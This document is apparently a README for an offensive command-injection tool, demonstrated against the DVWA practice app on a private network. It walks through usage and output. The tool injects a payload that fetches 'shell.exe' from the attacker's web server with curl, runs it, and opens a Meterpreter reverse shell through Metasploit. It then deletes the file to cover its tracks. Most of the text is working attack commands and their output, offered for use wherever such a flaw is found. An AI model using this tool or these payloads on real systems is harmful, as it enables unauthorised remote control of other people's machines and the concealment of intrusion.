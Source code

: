 # Command Injection Tool (RCE)

This tool can be utilised when attacker has found a field with command injection possible.  It will automate the process and will provide you with a meterpreter shell.

- You'll need a **webserver** running at **port 80** in same directory as script. (tool will prompt you).
- You'll need **msfvenom** and **msfconsole** installed.

### Usage

```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444


usage: command_inejction.py [-h] [-p PARAM] [-t TARGET] [-u URL] [-c COOKIES]
                            [-m METHOD] [-lh LHOST] [-lp LPORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PARAM, --param PARAM
                        Param: -p Submit:Submit;Login:Login;
  -t TARGET, --target TARGET
                        Target Param: -t ip
  -u URL, --url URL     URL: -u http://127.0.0.1/
  -c COOKIES, --cookies COOKIES
                        Cookies: -c PHPSESSID:f8ucrbu0qmta4ettc3208gcvnq&
                        security:low
  -m METHOD, --method METHOD
                        Method: -m get OR -m POST
  -lh LHOST, --LHOST LHOST
                        LHOST: -lh 192.168.0.112
  -lp LPORT, --LPORT LPORT
                        LPORT: -lp 8080
```

### Step 1
- Run the program.
```
./command_injection.py -u http://192.168.0.104/dvwa/vulnerabilities/exec/ -c "PHPSESSID:ggc66turb492nrus71o8u34a20;security:high;" -t "ip" -p "Submit:Submit;" -m post --LHOST 192.168.0.111 --LPORT 4444
```
- Output
```
[+] You'll need to host a web server at 192.168.0.111:4444 at path /home/baba/GitHub/hunting-automated/command_injection.
[...] sudo python3 -m http.server 80
[*] Hit enter once done... 
```
### Step 2
- Start a web server in same directory as command_injection.py.
```
sudo python3 -m http.server 80
```
- Hit Enter

```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |curl 192.168.0.111/shell.exe -o shell.exe
[+] You'll need to start a handler at LHOST:192.168.0.111, LPORT:4444 in msfconsole. 
        Set Payload to windows/meterpreter/reverse_tcp. Set RHOST to 
[*] Hit enter once done... 
```
### Step 3
- Start metasplpoit and multi/handler.
```
msfconsole

msf6 > use multi/handler  
[*] Using configured payload generic/shell_reverse_tcp

msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp  
payload => windows/meterpreter/reverse_tcp  
msf6 exploit(multi/handler) > set LHOST 192.168.0.111
LHOST => 192.168.0.111

msf6 exploit(multi/handler) > run  
  
[*] Started reverse TCP handler on 192.168.0.111:4444

```
- Hit Enter
```
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |shell.exe
```
- We have shell
```
[*] Sending stage (175174 bytes) to 192.168.0.104  
[*] Meterpreter session 1 opened (192.168.0.111:4444 -> 192.168.0.104:50322) at 2021-01-18 20:04:17 +0530  
  
meterpreter > 
```

- Finally, when you exit or close the session. It will remove all the files created for it to work.

```
[-] Cleaning up...
[*]URL : http://192.168.0.104/dvwa/vulnerabilities/exec/
[*]Cookies {'PHPSESSID': 'ggc66turb492nrus71o8u34a20', 'security': 'high'}
[*]Param: Submit:Submit;ip
[*]Payload: |del shell.exe

```
